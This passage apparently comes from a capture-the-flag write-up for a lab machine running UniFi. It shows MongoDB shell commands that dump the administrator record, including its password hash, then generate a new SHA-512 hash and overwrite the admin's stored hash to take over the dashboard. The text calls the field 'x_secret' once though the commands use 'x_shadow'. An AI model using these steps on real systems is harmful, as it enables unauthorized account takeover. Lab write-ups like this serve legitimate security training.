 ```shell
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)" | head
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	"time_created" : NumberLong(1640900495),
	"last_site_name" : "default",
unifi@unified:/usr/lib/unifi$
```

We can modify the password contained in `"x_secret"` but first we have to encode it in `sha512`.

```shell
❯ mkpasswd -m sha-512 rk1234
$6$Bj0FJdy0deBxHa9u$srnxVOlVR0VdkwgplyTKMLhwuF1IvdAb81gIFZnDsZufvomKiQJfi2HWQqTgsI8rtCd97Au7CxNolhQ5uC4vs.
```

And now we modify it.

```shell
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Bj0FJdy0deBxHa9u$srnxVOlVR0VdkwgplyTKMLhwuF1IvdAb81gIFZnDsZufvomKiQJfi2HWQqTgsI8rtCd97Au7CxNolhQ5uC4vs."}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/usr/lib/unifi$
```

### Accessing the website's private area

Now, using our credentials we should be able to access the website's private area in order for further enumeration.

<p align="center"><img src="img/9_dashboard.png" alt="UniFi Dashboard"></img></p>
